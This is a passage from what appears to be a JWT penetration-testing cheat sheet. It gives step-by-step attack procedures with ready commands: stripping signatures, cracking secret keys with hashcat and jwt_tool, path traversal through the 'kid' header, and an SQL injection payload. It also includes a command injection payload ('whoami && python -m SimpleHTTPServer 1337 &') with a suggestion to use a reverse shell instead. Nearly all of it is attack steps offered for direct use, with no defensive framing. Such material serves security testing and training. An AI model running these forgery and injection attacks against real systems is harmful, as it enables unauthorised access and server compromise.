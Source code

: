 4. \***\*Signature not being checked\*\***

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Switch to JSON Web Token Tab or JOSEPH.
4. Change Payload section and Remove the Signature completely or try changing somecharacters in signature
5. Done, Forward the Request.
```

5. \***\*Crack the secret key\*\***

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. If JWT-Heartbreaker Plugin is installed then weak secret-key will directly be shown to you.
																			OR
3. Copy JWT Token and store it in a text file then usse Hashcat to crack the Secret key using below command.
		"hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --force"
		"hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --show" //this will show cracked secret-key
																			OR
3. Use Jwt_Tool to crack the secret key using below command:
			"python3 jwt_tool.py <JWT> -C -d secrets.txt"
4. Now Use the Secret key to forge the request using jwt.io or jwt_tool with option "-p"
5. Done, Use the generated token in request and forward the request.

* You can also find any leaking secret key in jwt.json config file.
```

6. **Attacks using kid in JWT token.**

```python
Use arbitrary files to verify
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. If there is kid in header section of JWT_token then forge a new JWT token using jwt_tool
		'python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""'
* Alternatively, we may utilise the content of any file in the web root, such as CSS or JS, to validate the Signature.
		'python3 jwt_tool.py -I -hc kid -hv "path/of/the/file" -S hs256 -p "Content of the file"'
4. Manipulate payload section and now use the generated token in request.
5. Done, Forward the Request.

SQL injection
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Switch to JSON Web Token Plugin tab and manipulate kid with sqli payload.
4. You can try SQLi not only in kid but in any field of payload section.
		"python3 jwt_tool.py <JWT> -I -pc name -pv "admin' ORDER BY 1--" -S hs256 -k public.pem"
5. Done, Forward the request and escalate sqli further.

Command injection
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Switch to JSON Web Token Plugin tab and manipulate kid with os commands payload.
	"kid: key.crt; whoami && python -m SimpleHTTPServer 1337 &"
4. Now use the forged JWt token in request
5. Check if you can connect to the server on port 1337 or instead use reverse shell in payload and check if you get connection back
6. DOne

```
